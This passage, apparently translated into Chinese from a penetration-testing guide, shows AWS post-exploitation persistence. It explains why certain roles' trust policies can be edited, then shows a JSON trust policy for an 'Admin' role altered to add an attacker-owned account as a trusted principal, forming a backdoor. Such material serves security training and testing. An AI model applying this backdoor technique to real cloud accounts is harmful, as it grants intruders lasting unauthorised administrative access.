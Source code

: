 名称`AWSBatchServiceRole`明确表示该角色是服务链接角色，对吗？错误的如果您注意到，`AWS service: batch`之后没有`(Service-Linked role)`注释。因此，这意味着我们可以更新此角色的信任策略，即使它听起来像是一个服务链接的角色。

在我们的测试环境中，我们发现了一个名为`Admin`的角色，它会立即向您发出`high privileged`作为攻击者的尖叫，因此我们将针对这个角色进行持久化。我们不想在目标环境中搞砸任何事情，因此我们希望将自己添加到信任策略中，而不是用我们自己的策略覆盖它，这可能会在环境中搞砸事情。如果我们碰巧删除了对某个 AWS 服务的访问，那么依赖于该访问的资源可能会开始失败，并且出于许多不同的原因，我们不希望出现这种情况。

从`iam:GetRole`和`iam:ListRoles`返回的数据应该已经在 JSON 响应对象的`AssumeRolePolicyDocument`键下包含我们想要的角色的活动信任策略文档。我们针对的管理员角色如下所示：

```
{
    "Path": "/",
    "RoleName": "Admin",
    "RoleId": "AROAJTZAUYV2TQBZ2LXUK",
    "Arn": "arn:aws:iam::111111111111:role/Admin",
    "CreateDate": "2018-11-06T18:48:08Z",
    "AssumeRolePolicyDocument": {
        "Version": "2012-10-17",
        "Statement": [
            {
                "Effect": "Allow",
                "Principal": {
                    "AWS": "arn:aws:iam::111111111111:root"
                },
                "Action": "sts:AssumeRole"
            }
        ]
    },
    "Description": "",
    "MaxSessionDuration": 3600
}
```

如果我们查看`AssumeRolePolicyDocument`>`Statement`下的值，我们可以看到目前有一个主体可以担任此角色，即**亚马逊资源名**（**ARN**）、`arn:aws:iam::111111111111:root`。此 ARN 指 ID 为`111111111111`的账户的根用户，基本上翻译为`any resource in account ID 111111111111`。其中包括根用户、IAM 用户和 IAM 角色。

# 添加我们的后门访问

我们现在要将攻击者拥有的帐户作为信任策略添加到此角色。首先，我们将角色信任策略中的`AssumeRolePolicyDocument`键的值保存到本地 JSON 文件（`trust-policy.json`）。要在不删除当前信任的情况下向我们自己的帐户添加信任，我们可以将`Principal``AWS`键的值从字符串转换为数组。此阵列将包括已就位的根 ARN 和攻击者帐户的根 ARN。`trust-policy.json`现在应该如下所示：

```
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": {
                "AWS": [
                    "arn:aws:iam::111111111111:root",
                    "arn:aws:iam::012345678912:root"
                ]
            },
            "Action": "sts:AssumeRole"
        }
    ]
}
```

